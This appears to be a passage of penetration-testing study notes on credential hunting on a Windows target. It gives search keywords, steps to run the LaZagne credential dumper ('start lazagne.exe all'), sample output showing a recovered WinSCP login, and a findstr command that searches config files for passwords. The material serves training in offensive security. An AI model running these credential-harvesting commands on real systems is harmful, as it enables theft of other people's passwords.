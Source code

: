 - Passwords, Passphrases, Keys
- Username, User account, Creds
- Users, Passkeys
- Configuration, dbcredential, dbpassword
- pwd, Login, Credentials

## Search Tools and Methods

### Windows Search

- Default OS search tool
- Searches both OS settings and file system
- Accessible via the search bar

### Lazagne Tool

1. Transfer standalone Lazagne.exe to target system
2. Execute via command prompt: `start lazagne.exe all`
3. Add `vv` option for detailed execution information
4. Reveals credentials stored insecurely by applications

### Example Lazagne Output:

```
|====================================================================|
|                                                                    |
|                          The LaZagne Project                       |
|                                                                    |
|                            ! BANG BANG !                           |
|                                                                    |
|====================================================================|

########## User: bob ##########

------------------- Winscp passwords -----------------
[+] Password found !!!
URL: 10.129.202.51
Login: admin
Password: SteveisReallyCool123
Port: 22

```

### Using findstr Command

```
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml

```

- Searches for patterns across multiple file types
- Customizable for different search terms
